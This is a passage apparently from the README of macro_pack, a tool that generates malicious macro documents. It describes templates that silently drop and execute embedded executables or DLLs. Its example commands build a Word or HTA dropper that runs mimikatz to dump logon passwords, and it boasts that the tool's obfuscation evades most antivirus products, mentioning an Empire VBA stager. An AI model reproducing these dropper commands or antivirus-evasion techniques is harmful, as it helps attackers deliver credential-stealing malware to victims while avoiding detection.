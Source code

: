 
### EMBED_EXE    
        
Combine with --embed option, it will drop and execute (hidden) the embedded file.  
Optionally you can give to the template the path where file should be extracted  
If extraction path is not given, file will be extracted with random name in current path.   
 -> Example1: ```macro_pack.exe  -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.vbs```  
 -> Example2: ```echo "path\\to\newcalc.exe" | macro_pack.exe -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.doc```  
 
 
### EMBED_DLL
Combine with --embed option, it will drop and call a function in the given DLL
Give this template the name and parameters of function to call in DLL
-> Example1 : ```echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc```
-> Example2 : ```echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta```



## Efficiency

The various features were tested against locally installed Antimalware solutions as well as online service. I ran multiple tests with several kind of payloads and macro\_pack features.
A majority of antivirus will be evaded by the simple "obfuscate" option. Features available in pro mode generally ensure full AV bypass.

### Example with Empire VBA stager:

Here are the results of NoDistribute scanner for the regular Empire VBA stager